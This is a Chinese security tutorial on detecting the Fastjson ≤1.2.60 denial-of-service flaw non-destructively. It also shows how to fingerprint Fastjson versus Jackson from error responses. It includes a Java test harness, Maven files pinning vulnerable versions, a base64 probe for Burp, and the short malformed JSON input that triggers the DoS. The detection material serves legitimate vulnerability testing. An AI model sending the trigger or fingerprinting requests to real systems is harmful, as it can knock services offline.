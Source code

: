 Fastjson \<=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分
============================================================

一、漏洞简介
------------

二、漏洞影响
------------

Fastjson 1.2.60 以下版本

三、复现过程
------------

针对Fastjson DoS 漏洞的检测，相对较好识别，但其需要发送 DoS
的请求包，就会有一个时间延迟，但是部分使用者或 SRC平台对 DoS
类漏洞持保守态度。

所以这里提出一种无损检测 Fastjson DoS 漏洞的方法。

首先有以下几种情况：

### 未知目标是否使用 Fastjson ，但站点有原始报错回显

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显，报错中往往会有fastjson的字样

例如

![](./.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId25.png)

### 无回显，盲区分 Fastjson 和 Jackson

Java 系 Json 处理基本只有 Fastjson 和 Jackson。由于 Jackson 相对比较严格, 这里可以很好分辨出 Fastjson 和 Jackson

如果请求包中的 json 如下:

{\"name\":\"S\", \"age\":21}

追加一个随机 key ,修改 json 为

{\"name\":\"S\", \"age\":21,\"agsbdkjada\_\_ss\_d\":123}

这里 Fastjson 是不会报错的, Jackson 因为强制 key 与 javabean
属性对齐,只能少不能多 key,所以会报错,服务器的响应包中多少会有异常回显

Fastjson：

![](./.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId27.png)

Jackson：

![](./.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId28.png)

### 无损检测原理

已经知道目标使用的是 Fastjson ,可以用以下 poc 去检测是否存在 DOS 漏洞

Fastjson \< 1.2.60 在取不到值的时候会填充 \\u001a ,在1.2.60 进行了修复, 对 \\x 后面的字符进行是否为16进制允许字符
(0-9a-fA-F) 的校验,所以这里就可以手动 padding ,构造一个特殊的字符串

\\x\\u001a\\u001a

测试代码:

Main.java

    import com.alibaba.fastjson.JSON;

    public class Main {
        public static void main(String[] args) {
            String payload = "{\"a\":\"\\x\u001a\u001a\"}";
            System.out.println(payload);
            Object o = JSON.parseObject(payload);
            System.out.println(o.getClass());
        }
    }

Fastjson \< 1.2.60

pom.xml

    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>

        <groupId>tophant</groupId>
        <artifactId>tcc</artifactId>
        <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.59</version>
        </dependency>
    </dependencies>

    </project>

![](./.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId30.png)

Fastjson == 1.2.60，可以看到报错

pom.xml

    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>

        <groupId>tophant</groupId>
        <artifactId>tcc</artifactId>
        <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.60</version>
        </dependency>
    </dependencies>

    </project>

![](./.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId31.png)

### 使用 Burp 测试

在 Burp 中测试可以使用 : eyJhIjoiXHgaGiJ9 (base64解码)

当后端 Fastjson 版本小于 1.2.60 时，使用该请求包不会延时不会报错

![](./.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId33.png)

使用 {\"a:\"\\x 进行请求就会发生 DOS

![](./.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId34.png)

四、参考链接
------------

> https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/
